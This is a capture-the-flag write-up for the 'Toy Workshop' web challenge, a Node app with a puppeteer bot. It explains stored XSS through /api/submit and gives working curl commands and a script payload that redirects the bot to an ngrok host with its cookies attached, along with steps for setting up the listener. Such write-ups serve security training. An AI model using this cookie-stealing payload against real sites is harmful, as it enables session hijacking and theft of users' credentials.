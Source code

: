 ```yaml
---
title: Toy Workshop - Web
sidebar_position: 3
---
```

## Challenge Name: Toy Workshop
### Topic: Web
### Challenge Prompt
`The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?`

### Walkthrough
This challenge has both a downloadable part and a docker service to accompany it. Download the challenge archive and extract it to see it's a node webserver.  
Start the docker service, going to that service brings us to a fun little animation of packages moving on a conveyor belt.  
Looking through the code given to use, we can see the internal workings of what is presumably running on the docker service. This webserver has a couple interesting files, notably:
`database.js`  
`routes/index.js`  
`bot.js`  

Lets look at `routes/index.js` first. We can see a route to `/api/submit` that allows post requests. It looks like its adding a "query" in a sqlite3 db that gets retrieved later. We see there's another endpoint at `/queries` that displays the queries submitted to `/api/submit` endpoint. It has a localhost restriction on it though, so my first though it some sort of xss attack later on.  
Switching over to `bot.js`, we see this is where the flag is being set as cookies and where puppeteer is being setup to navigate to the `/queries` endpoint as localhost. This has confirmed the earlier suspicion that it is an XSS attack.

Looking at `database.js`, we can see the logic for inserting queries into the database and for displaying them later on. I got stuck on this code for awhile, but it's not as important as the other two.  

Lets send some test queries to `/api/submit` using curl and see what we get back.

Command: `curl -H "Content-Type: application/json" -d '{"query": "1234"}' -X POST 138.68.184.31:30881/api/submit`   

Response: `{"message":"Your message is delivered successfully!"}`

We knew what parameters to supply due to having access to the source code, more specifically that information is found in `routes/index.js` on line 15: `const { query } = req.body;`  

So we know so far that it's most likely an XSS attack since puppeteer is being used to access the `/queries` endpoint as localhost so lets send some payloads and see what happens.  
Command: `curl -H "Content-Type: application/json" -d '{"query": "<script>console.log(document.cookie)</script>}' -X POST http://138.68.184.31:32360/api/submit`  
Response: `{"message":"Your message is delivered successfully!"}`

But we have an issue, we can't access `/queries` where the XSS attack will be executed, also this attack will only display our cookies to the console. Not send them to a place we can access. Luckily there's a solution to this issue and it's called `ngrok`.  

Ngrok allows you to tunnel a localhost webserver onto the wide internet. We can do this by first creating a directory for the webserver, then running `python -m http.server &` and then `ngrok http 8000`, after executing that command we'll be given a domain name to use in our attacks.

Now lets try an attack from a really useful resource over at https://0xhorizon.eu/cheat-sheet/xss/. The "get cookies from another user" is exactly what we're looking for. Modifying it with out ngrok domain gives us the following payload:  
`<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"` *note the escaped strings, that got me for awhile*

Inserting this into our curl command gives us the following complete payload:
`curl -H "Content-Type: application/json" -d '{"query": "<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"}' -X POST 138.68.184.31:30881/api/submit` Execute this payload and wait a couple of seconds and the flag should show in the terminal tab with ngrok:

![image](/img/cyber_santa/flag_ngrok.png)
